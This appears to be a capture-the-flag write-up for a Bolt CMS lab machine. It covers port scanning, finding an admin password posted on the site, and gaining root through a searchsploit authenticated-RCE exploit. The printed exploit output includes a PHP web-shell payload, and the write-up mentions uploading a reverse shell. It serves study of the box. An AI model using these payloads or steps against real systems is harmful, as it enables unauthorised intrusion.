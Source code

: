 # Enumeration Phase
## ping scan
```sh
❯ ping 10.10.202.204
PING 10.10.202.204 (10.10.202.204) 56(84) bytes of data.
64 bytes from 10.10.202.204: icmp_seq=1 ttl=63 time=56.4 ms
^C
--- 10.10.202.204 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 56.350/56.350/56.350/0.000 ms
```
## nmap scan
```sh
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8000/tcp open  http    (PHP 7.2.32-1)
```
Notes:
- CMS is running on port 8000
- Username found Bolt
## http check
### 10.10.202.204
```html
default apache page
```
### 10.10.202.204:8000
Notes:
- In "Latest Entries" we see "Message for IT Department" that says:
	- "Hey guys,
		i suppose this is our secret forum right? I posted my first message for our readers today but there seems to be a lot of freespace out there. Please check it out! my password is boltadmin123 just incase you need it!
		
		Regards,
		
		Jake (Admin)"
- "Message From Admin" says:
	- "Hello Everyone,
		Welcome to this site, myself Jake and my username is bolt .I am still new to this CMS so it can take awhile for me to get used to this CMS but believe me i have some great content coming up for you all!
		
		Regards,
		
		Jake (Admin)"
- Collected data:
	- real name: Jake (Admin) username: bolt passowrd: boltadmin123
## manual work
added 'bolt' to the url and got redirected to Bolt CMS login page
![[Pasted image 20221030005700.png]]
## testing creds
- username: jake , bolt
- password: boltadmin123
Notes: accessed the cms system successfully 
# Weaponization Phase
In the Bolt management page we see a file upload capability:
![[Pasted image 20221030110645.png]]
So let's use pentestmonkey's php reverse shell and upload it to the CMS system.
## searchsploit
```sh
Bolt CMS 3.7.0 - Authenticated Remote Code Execution           | php/webapps/48296.py
```
# Exploitation Phase
```sh
❯ python3 bolt_rce.py http://10.10.210.50:8000 bolt boltadmin123
[i] Author: Musyoka
[+] Cross Site Requetst Forgery Token Geneated Successfully
[+] Login Token assigned: w-G25ZaXA9_YHdmHT4wUpmiWOm6R2YGmrBa3AMBBclA

===> lOGGING IN PLEASE BE PATIENT
[+] Username: bolt and password: boltadmin123 supplied is valid
[+] Profile Token assigned: Eyo0T58lKezjb3NLSN1wZZjdE7FEiuwz6XHtGcEDXM8

[+] Email to be used: 0x9778@protonmail.com
[+] Injecting payload in the username field
[+] Payload used: <?php system($_GET['bolt']);?>
[+] Payload injected in the Username successfully

[+] Showcase CSRF Token: oIC1hzQpTsqPHVnTICnUkBfN5OxYL8lGilkuq35kiDw

[+] Used token 033b8622b16002c021029a0696 to create V9Vm1P.php
shell created has the name V9Vm1P.php
"..\/..\/..\/public\/files\/V9Vm1P.php"

[+] Command shell session 1 opened
[+] To Get a Reverse shell Press: 1
[!] Type exit to leave the terminal

Bolt-RCE$ 
```
# Priv-Esc Phase
```sh
Bolt-RCE$ whoami
root

Bolt-RCE$ 
```